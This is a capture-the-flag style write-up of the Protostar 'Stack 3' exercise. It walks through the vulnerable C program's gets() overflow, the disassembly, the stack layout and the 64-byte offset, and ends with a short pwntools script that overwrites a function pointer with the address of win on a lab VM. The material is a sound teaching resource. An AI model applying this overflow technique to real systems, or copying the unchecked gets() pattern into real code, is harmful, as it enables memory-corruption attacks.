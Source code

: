 # Stack 3


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp(); 
  }
}

```
vulnerability :  usage of gets() function will lead to buffer overflow

Goal : Overwrite the function pointer fp with the address of the 'win' function.

# static analysis

```asm
0x08048438 <main+0>:	push   ebp
0x08048439 <main+1>:	mov    ebp,esp
0x0804843b <main+3>:	and    esp,0xfffffff0
0x0804843e <main+6>:	sub    esp,0x60
0x08048441 <main+9>:	mov    DWORD PTR [esp+0x5c],0x0 <--- 3) fp is store in [esp+0x5c]
0x08048449 <main+17>:	lea    eax,[esp+0x1c]   <--- 2) eax point on [esp+0x1c]
0x0804844d <main+21>:	mov    DWORD PTR [esp],eax  <--- 1) eax points on the content of 'buffer'
0x08048450 <main+24>:	call   0x8048330 <gets@plt>
0x08048455 <main+29>:	cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:	je     0x8048477 <main+63>
0x0804845c <main+36>:	mov    eax,0x8048560
0x08048461 <main+41>:	mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:	mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:	mov    DWORD PTR [esp],eax
0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:	call   eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret 

```

The stack look like this : 


```


  |  |                     |
  |  |     fp              | 
  |  |                     | 
  |  |---------------------|esp+0x5c (esp+92)
  |  |                     |
  |  |       buffer        |   
  |  |                     |
  |  |---------------------|esp+0x1c  (esp+28)
  |  |      ...            |
  |  |---------------------| <-- esp 
  v

```

Thanks to  gets() function we can overwrite fp with the address of the 'win' function.
We need to write 0x5c - 0x1c = 64 bytes into buffer and then add the address of the win function.


## address of win : 

```
(gdb) disassemble win
Dump of assembler code for function win:
0x08048424 <win+0>:	push   ebp
0x08048425 <win+1>:	mov    ebp,esp
0x08048427 <win+3>:	sub    esp,0x18
0x0804842a <win+6>:	mov    DWORD PTR [esp],0x8048540
0x08048431 <win+13>:	call   0x8048360 <puts@plt>
0x08048436 <win+18>:	leave  
0x08048437 <win+19>:	ret    
End of assembler dump.

```

Let's jump at 0x08048424 (first address of the prologue)



# script 


```python
from pwn import *



r = ssh(host='192.168.160.128', user='user', password='user')

my_pg = r.run(['/opt/protostar/bin/stack3'])
payload = b'A'*64 + p32(0x08048424)
my_pg.sendline(payload)

print(my_pg.recvline())
print(my_pg.recvline())

```

The response we got : 

![](win_mess.png)



Thanks for reading and hope you learn something !!